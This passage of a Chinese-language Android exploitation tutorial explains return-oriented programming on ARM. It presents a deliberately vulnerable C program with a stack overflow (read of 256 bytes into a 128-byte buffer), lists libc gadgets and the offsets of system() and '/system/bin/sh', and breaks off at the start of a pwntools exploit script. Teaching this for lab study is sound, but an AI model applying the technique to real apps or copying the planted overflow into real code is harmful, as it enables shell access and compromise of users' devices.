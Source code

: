 
可以看到地址都是一模一样的。这意味着什么呢？我们知道android上所有的app都是由zygotefork出来的，因此我们只要在自己的app上得到libc.so等库的地址就可以知道其他app上的地址了。

假设我们已经知道了目标app的libc.so在内存中的地址了，那么应该如何控制pc执行我们希望的rop呢？OK，现在我们现在来看level8.c：

    
    
    #!c
    #include<stdio.h>
    #include<stdlib.h>
    #include<unistd.h>
    #include<dlfcn.h>
    
    void getsystemaddr()
    {
    void* handle = dlopen("libc.so", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
    }
    
    void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 256);
    }
    
    int main(int argc, char** argv) {
    getsystemaddr();
    write(STDOUT_FILENO, "Hello, World\n", 13);    
    vulnerable_function();
    }
    

这个程序会先输出system的地址，相当于我们已经获取了这个进程的内存布局了。接下来要做的就是在libc.so中寻找我们需要的gadgets和字符串地址。因为libc.so很大，我们完全不用担心找不到需要的gadgets，并且我们只需要控制一个r0即可。因此这些gadgets都能满足我们的需求：

    
    
    #!bash
    0x00014f48 : ldr r0, [sp, #4] ; pop {r1, r2, r3, pc}
    0x0002e404 : ldr r0, [sp, #4] ; pop {r2, r3, r4, r5, r6, pc}
    0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
    

接下来就是在libc.so中找`system()`和`"/system/bin/sh"`的位置：

![p4](http://static.wooyun.org//drops/20151216/2015121615313047065420.png)

![p5](http://static.wooyun.org//drops/20151216/2015121615313156402517.png)

可以看到地址分别为`0x000253A4`和`0x0003F9B4`。当然了，就算获取了这些地址，我们也需要根据`system()`在内存中的地址进行偏移量的计算才能够成功的找到gadgets和`"/system/bin/sh"`在内存中的地址。除此之外，还要注意thumb指令和arm指令的转换问题。最终的exp level8.py如下：

    
    
    #!python
    #!/usr/bin/env python
    from pwn import *
    
    #p = process('./level8')
    p = remote('127.0.0.1',10001)
    